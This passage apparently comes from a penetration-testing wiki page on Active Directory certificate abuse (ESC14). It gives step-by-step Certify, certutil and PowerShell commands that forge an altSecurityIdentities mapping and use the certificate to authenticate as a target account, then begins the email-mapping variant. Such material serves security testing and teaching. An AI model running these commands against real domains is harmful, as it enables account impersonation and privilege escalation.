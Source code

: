 ```python
)

conn.unbind()
```

=== Windows

From Windows systems, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template.

```powershell
Certify.exe request /ca:domain\ca /template:Machine /machine
```

Then, the `certutil` utility permits to merge the PFX and dump the serial number and the issuer DN from it.

```powershell
certutil -MergePFX .\cert-a.pem .\cert-a.pfx
certutil -Dump -v .\cert-a.pfx
```

Following this, the [Get-X509IssuerSerialNumberFormat](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1) script (PowerShell) allows to craft a X509IssuerSerialNumber mapping string well formated.

```powershell
Get-X509IssuerSerialNumberFormat -SerialNumber $SERIAL_NUMBER -IssuerDistinguishedName $ISSUER_DN
```

Finally, the crafted string can be added to `altSecurityIdentities` target's attribute with the [Add-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Add-AltSecIDMapping.ps1) script (PowerShell).

```powershell
Add-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
Get-AltSecIDMapping -DistinguishedName $TARGET_DN
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with [Remove-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Remove-AltSecIDMapping.ps1) (PowerShell).

```powershell
Remove-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
```

:::


#### (ESC14 B) Target with X509RFC822 (email)

The target has an explicit weak mapping of type `X509RFC822`. The attacker can modify the `mail` attribute of the victim so that it matches the `X509RFC822` mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.

For this attack, a few additional prerequisites are necessary:

